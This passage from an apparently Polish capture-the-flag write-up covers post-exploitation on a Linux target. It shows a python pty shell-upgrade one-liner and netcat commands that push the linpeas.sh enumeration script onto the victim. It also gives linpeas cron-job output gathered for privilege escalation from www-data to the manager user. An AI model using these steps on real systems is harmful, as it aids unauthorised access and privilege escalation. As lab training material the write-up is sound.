 ![566f704fb0cbbdf7028a6e0465a1edf3.png](_resources/566f704fb0cbbdf7028a6e0465a1edf3.png)

Na koniec dla wygody.

```bash
/usr/bin/python3.9 -c 'import pty; pty.spawn("/bin/bash")'
```
### Horizontal PE
Niestety użytkownik www-data nie ma uprawnień do odczytu flagi z ```/home/manager/flag1.txt```. Musimy zatem uzyskać uprawnienia użytkownika ```manager```.
Żeby szybko sprawdzić co może być przydatne przy PE przerzucamy na ofiarę skrypt ```linpeas.sh```.

Po stronie celu
```bash
nc -lp 1234 > linpeas.sh
```
Po stronie atakującego
```bash
nc -w 3 $IP 1234 < linpeas.sh
```
Interesujący wynik
```
                                                                                                               
╔══════════╣ Cron jobs                                                                                                
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs                                     
/usr/bin/crontab                                                                                                      
incrontab Not Found                                                                                                   
-rw-r--r-- 1 root root    1121 Oct 29 19:21 /etc/crontab                                                              
                                                                                                                      
/etc/cron.d:                                                                                                          
total 20                                                                                                              
drwxr-xr-x  2 root root 4096 Oct 29 19:48 .                                                                           
drwxr-xr-x 72 root root 4096 Oct 30 02:23 ..                                                                          
-rw-r--r--  1 root root  102 Feb 22  2021 .placeholder                                                                
-rw-r--r--  1 root root  201 Jun  7 13:27 e2scrub_all                                                                 
-rw-r--r--  1 root root  712 May 11  2020 php                                                                         
                                                                                                                      
/etc/cron.daily:                                                                                                      
total 32                                                                                                              
drwxr-xr-x  2 root root 4096 Oct 29 19:48 .                                                                           
drwxr-xr-x 72 root root 4096 Oct 30 02:23 ..                                                                          
-rw-r--r--  1 root root  102 Feb 22  2021 .placeholder                                                                
-rwxr-xr-x  1 root root  539 Aug  8  2020 apache2                                                                     
-rwxr-xr-x  1 root root 1478 Jun 10 10:53 apt-compat                                                                  
-rwxr-xr-x  1 root root 1298 Jan 30  2021 dpkg                                                                        
```